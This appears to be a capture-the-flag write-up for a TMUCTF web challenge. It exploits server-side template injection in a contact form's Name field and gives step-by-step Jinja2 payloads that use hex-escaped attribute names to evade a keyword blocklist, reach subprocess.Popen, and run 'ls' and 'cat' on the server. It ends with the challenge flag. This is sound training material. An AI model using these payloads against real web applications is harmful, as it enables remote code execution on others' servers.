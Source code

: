 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
In this challenge a "Contact Us" page is given. According to the name of the challenge, we try to find some kind of injection on this page.  
By filling in the fields of the form, we see that the `Name` field is reflected on the page. For example, by entering "Test" in the `Name` field, the following message will be displayed:
`
Dear Test, we have received your message...
`  
Now we enter {{4*7}} in the Name field. the following message will be displayed:
```
Dear 28, we have received your message...
```
So it turns out that this field has the `SSTI` vulnerability.

We try different payloads to exploit this vulnerability, but it can be seen that many of the common words used in the SSTI vulnerability payloads are blocked.
For example, by entering `{{''.__class__}}` in the `Name` field, the following message will be displayed:
```
An attack has been detected in this phrase: '.'
```  
By trying different payloads and leaving out the items that are blocked, we can finally get an RCE on the server
(By calling the popen subprocess, which by searching we find that it is in the 360th index from the list of subprocesses):
```
{{()|attr('\x5f\x5fclass\x5f\x5f')}}
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)}}
```  
By executing the `ls` command, we see that there is a `help` file in the current path:
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)('ls',stdout=-1)|attr('communicate')()}}
```  
Open this file by executing the following command:
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)(('cat','help'),stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```  
We will see the following sentence inside the help file:
```
Flag is the last file I put in /opt/tmuctf/ folder...
```  
Since the flag is the last file that is placed in the `/opt/tmuctf/` folder, so we run the following command to see the list of files of this folder, from newest to oldest.
Certainly the newest file is the flag file.
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)(('ls','-t','/opt/tmuctf/'),stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```  
So we open the newest file with the following command:
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)(('cat','/opt/tmuctf/gTKF6mHwMC'),stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```  
Base64 encoded string is inside this file:
```
VE1VQ1RGezBoIV95MHVfYnlwNDU1M2RfNGxsX215X2JsNGNrbDE1NyEhIV9fMV81aDB1bGRfaDR2M19iMzNuX20wcjNfYzRyM2Z1bH0=
```  
By decoding This string we get the flag.

The flag:
```
TMUCTF{0h!_y0u_byp4553d_4ll_my_bl4ckl157!!!__1_5h0uld_h4v3_b33n_m0r3_c4r3ful}
```

